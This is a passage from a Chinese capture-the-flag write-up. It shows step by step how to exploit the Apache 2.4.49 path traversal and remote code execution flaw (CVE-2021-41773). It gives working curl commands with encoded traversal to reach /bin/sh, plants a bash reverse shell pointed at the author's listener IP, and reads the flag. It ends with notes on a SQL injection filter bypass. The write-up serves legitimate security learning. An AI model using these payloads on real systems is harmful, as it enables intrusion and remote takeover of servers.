 ```plain
list{?:}x{?:}38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc{?:}x{?:}39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats{?:}x{?:}41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody{?:}x{?:}65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt{?:}x{?:}100:65534::/nonexistent:/usr/sbin/nologin
```

测试成功！

#### RCE 测试

获取根目录下的 `flag` 文件失败，我们无从知道 flag 放到哪，文件名是什么，是否需要提权等。因此拿到 shell 是万全之策。

访问 `http://node4.buuoj.cn:27256/cgi-bin/printenv` 没有返回 `404`，可知存在 `cgi-bin` 目录，因此可实现远程代码执行获取 shell.

执行：

```bash
curl -v --data "echo;echo 'bash -i &> /dev/tcp/47.97.152.130/54188 0>&1'>> /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

其中 `47.97.152.130` 和 `54188` 分别为主控机 IP 和监听端口。

查看是否注入成功

```bash
curl --data "echo;ls /tmp" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

在返回结果中已经存在 `shell.sh`， 故在主控机上 `nc -lvp 54188`，然后执行：

```bash
curl --data "echo;bash /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

拿到 shell.

执行 `ls /` 找到 flag 并 `cat` 得到 flag.

```shell
daemon@out:/$ cat ffffllllaaagggg_cc084c485d
flag{c5b66e3b-404d-49eb-a970-0c0c7fa0f2db}
```

事实上将 `--data` 设定为 `echo;ls /` 进行 RCE 即可获得到 flag 的位置和文件名，然后使用路径穿越或 RCE 均可读到 flag 的内容。

#### References

- <https://blog.csdn.net/qq_60905276/article/details/125163219>
- <https://httpd.apache.org/security/vulnerabilities_24.html>
- <https://github.com/Threekiii/Vulhub-Reproduce/blob/master/Apache%20HTTP%20Server%202.4.49%20路径穿越漏洞%20CVE-2021-41773.md>

### Find round

基础注入测试一下，发现其过滤掉了空格和井号。其中空格可以使用 `%0C` 绕过。

注入一些 SQL 发现其没有回显。
